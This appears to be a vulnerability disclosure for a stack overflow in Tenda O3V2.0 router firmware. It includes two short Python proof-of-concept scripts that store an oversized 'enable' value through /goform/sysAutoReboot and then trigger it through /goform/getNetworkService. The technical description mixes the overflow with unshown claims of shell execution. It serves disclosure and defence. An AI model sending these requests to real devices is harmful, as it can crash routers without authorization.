 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `enable` POST parameter accepted by `/goform/sysAutoReboot` is written to the configuration key `sys.schedulereboot.enable` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `sys.schedulereboot.enable`.

## Technical details

- The `sysAutoReboot` endpoint accepts a POST parameter `enable` and calls `SetValue("sys.schedulereboot.enable", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114103.png)

- The `getNetworkService` endpoint reads `enable` via `GetValue("sys.schedulereboot.enable", v50)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114328.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `sys.schedulereboot.enable` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/sysAutoReboot"
payload =  b"a"*1000

data = {"enable":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)